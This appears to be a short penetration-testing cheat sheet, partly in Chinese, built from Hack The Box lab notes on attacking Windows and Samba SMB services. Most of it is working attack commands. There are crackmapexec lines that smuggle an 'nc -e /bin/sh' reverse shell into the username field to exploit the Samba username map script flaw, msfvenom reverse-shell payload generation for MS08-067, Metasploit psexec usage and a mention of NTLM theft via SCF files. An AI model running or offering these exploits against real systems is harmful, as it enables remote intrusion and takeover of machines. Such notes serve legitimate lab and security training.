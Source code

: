 ```bash
# msf psexec
use exploit/windows/smb/psexec

# scf attack to steal ntlm

```

### smb config

```bash
└─$ smbclient -L 10.11.1.136
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED

# edit /etc/samba/smb.conf
client min protocol = NT1
or
client min protocol = CORE
client max protocol = SMB3

```

配置guide参考[configure samba](https://help.ubuntu.com/community/How%20to%20Create%20a%20Network%20Share%20Via%20Samba%20Via%20CLI%20(Command-line%20interface/Linux%20Terminal)%20-%20Uncomplicated,%20Simple%20and%20Brief%20Way!)

### smb3.0-Username map script
[HTB-lame](https://coldfusionx.github.io/posts/LameHTB/#samba---port-139445)

```bash
# crackmapexec usernme
crackmapexec smb --shares 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.17 8021`' -p ''

# crackmapexec-smbexec
crackmapexec smb -x "./=`nohup nc -e /bin/sh 10.10.14.17 8022`" --exec-method smbexec 10.10.10.3

# python exploit
https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py
```

### ms08-067

* 利用1，生成reverse shell exe 后反弹shell
https://ratiros01.medium.com/hackthebox-legacy-machine-5d8a41a77940

exploit py
https://ratiros01.medium.com/hackthebox-legacy-machine-5d8a41a77940

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
nc -lvp 1234
python send_and_execute.py <target ip> <shell path>
```

* 利用2 生成 shellcode 修改py后获取 reverse shell
https://ratiros01.medium.com/hackthebox-legacy-machine-5d8a41a77940
https://medium.com/@siddharth.singhal1995/htb-walkthrough-legacy-without-metasploit-2-1baa34ade364
